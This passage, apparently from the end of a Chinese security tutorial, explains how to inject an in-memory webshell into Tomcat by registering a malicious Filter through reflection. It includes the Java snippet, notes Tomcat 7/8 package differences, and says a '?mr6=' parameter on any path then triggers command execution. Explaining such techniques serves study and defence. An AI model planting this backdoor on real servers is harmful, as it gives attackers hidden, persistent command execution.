 ![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900423274-cb9b952c-d238-4783-9aa3-ea253b5f3b83.png)

而实际上通过调用addFilterMapBefore就可以达到我们的目的。

接下来就是如何将 filter 添加到 filterConfigs 当中，通过构造函数实例化的时候把filterConfig传进去即可。

```
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
FilterConfig filterConfig = (FilterConfig) constructor.newInstance(standardContext, filterDef);
filterConfigs.put(name, filterConfig);
```

l1nk3r师傅的文章中还提到tomcat 7 与 tomcat 8 在 FilterDef 和 FilterMap 这两个类所属的包名不太一样。

```
tomcat 7:
org.apache.catalina.deploy.FilterDef;
org.apache.catalina.deploy.FilterMap;
tomcat 8:
org.apache.tomcat.util.descriptor.web.FilterDef;
org.apache.tomcat.util.descriptor.web.FilterMap;
```

## 最终效果

首先访问一次内存webshell，触发注入filter。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900423371-709178de-2b69-40eb-b56c-b8b815424068.png)

然后在任意路径下加上`?mr6=xxx`即可触发后门，执行命令

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900423478-a84c3c71-beec-4cc7-bbc1-5a88f81aedc0.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900423670-7e7b576f-af70-4d50-bc9c-47918d8f6440.png)
